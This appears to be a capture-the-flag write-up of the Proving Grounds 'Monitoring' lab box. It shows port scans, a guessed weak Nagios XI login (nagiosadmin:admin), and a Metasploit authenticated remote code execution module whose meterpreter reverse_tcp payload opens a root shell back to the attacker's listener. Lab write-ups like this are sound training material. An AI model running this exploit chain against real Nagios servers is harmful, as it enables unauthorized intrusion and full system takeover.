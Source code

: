 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/monitoring-1,555/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# discovery
## port scan
```bash
$ nmap -Pn -p- 192.168.198.136
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-22 16:42 EST
Nmap scan report for 192.168.198.136
Host is up (0.026s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
389/tcp  open  ldap
443/tcp  open  https
5667/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 19.19 seconds

$ nmap -Pn -p22,25,80,389,443,5667 -sV 192.168.198.136
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-22 16:43 EST
Nmap scan report for 192.168.198.136
Host is up (0.14s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
5667/tcp open  tcpwrapped
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.20 seconds
```

## port 80 and 443 (web server)
A `nagios` is running here.

![nagios]((/images/monitoring_nagios.png))

--- 

# exploitation
## default password
Googling for default credentials online reveals that the default username for `nagios` is `nagiosadmin`.

![nagios default credentials]((/images/monitoring_nagiosdefaultcreds.png))

> Unfortunately the default credentials do not work.
{: .prompt-danger }

Lets check if user `nagiosadmin` may used another weak password.

![nagios logged in](/images/monitoring_nagiosloggedin.png)

> Checking `nagiosadmin:admin` as credentials works!
> The screenshot reveals that `nagios xi 5.6.0` is installed.
{: .prompt-info }

## finding an exploit
Looking in `metasploit` shows 2 different potential authenticated remote code executions.

```bash
msf6 exploit(multi/handler) > search nagios xi 5.6

Matching Modules
================

   #  Name                                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                                 ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_mibs_authenticated_rce                  2020-10-20       excellent  Yes    Nagios XI 5.6.0-5.7.3 - Mibs.php Authenticated Remote Code Exection
   1  exploit/linux/http/nagios_xi_magpie_debug                            2018-11-14       excellent  Yes    Nagios XI Magpie_debug.php Root Remote Code Execution
   2  exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Prior to 5.6.6 getprofile.sh Authenticated Remote Command Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
```

Lets check `exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce`.

## exploit it
```bash
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. This includes signing the license agreement.
   PASSWORD        admin            yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.198.136  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.49.198   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)

msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.49.198:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012548 bytes) to 192.168.198.136
[*] Meterpreter session 2 opened (192.168.49.198:4444 -> 192.168.198.136:35670 ) at 2022-11-22 17:13:36 -0500
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: root
```

> It worked and we got a `root` shell!
{: .prompt-info }

---

# post exploitation
## get the flag
```bash
meterpreter > shell
Process 15081 created.
Channel 1 created.
ls
CHANGES.txt
getprofile.sh
profile.inc.php
profile.php
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
proof.txt
scripts
cat proof.txt
2******************************2
```

Pwned! <@:-)
